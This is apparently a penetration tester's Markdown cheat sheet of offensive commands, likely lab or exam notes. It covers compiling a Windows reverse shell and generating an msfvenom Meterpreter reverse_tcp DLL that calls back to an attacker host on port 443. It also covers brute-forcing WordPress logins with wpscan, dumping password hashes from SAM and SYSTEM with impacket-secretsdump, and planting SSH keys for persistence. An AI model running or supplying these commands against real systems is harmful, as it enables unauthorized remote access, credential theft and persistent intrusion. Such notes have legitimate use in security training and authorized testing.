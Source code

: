 to compile:
```bash
i686-w64-mingw32-gcc-win32 -std=c99 windows.c -o rsh.exe -lws2_32
```
## reverseshell (dll)
x64:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.45.200 LPORT=443 > reverse.dll
```
## Grant privilege of folder to user
```powershell
icacls "C:\Staging" /grant adrian:(OI)(CI)F /T
```

## Wordpress
Wpscan: `-e at -e ap -e u`
```bash
wpscan --url http://intranet.relia.com --enumerate p --plugins-detection aggressive
```
Brute force:
```bash
wpscan --url http://test.local/ --passwords passwords.txt
```
## Monitor process , Linux
Use [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

# extract SAM,SYSTEM file -> secretsdump
Download them under `C:\windows.old\Windows\system32`
Then use secretsdump :
```bash
impacket-secretsdump -sam SAM -system SYSTEM local
```

# Genrate ssh key pair
```bash
ssh-keygen -t rsa -b 4096
ssh-keygen -t dsa 
ssh-keygen -t ecdsa -b 521
ssh-keygen -t ed25519
```
Then add public key -> authorized_keys under `.ssh`
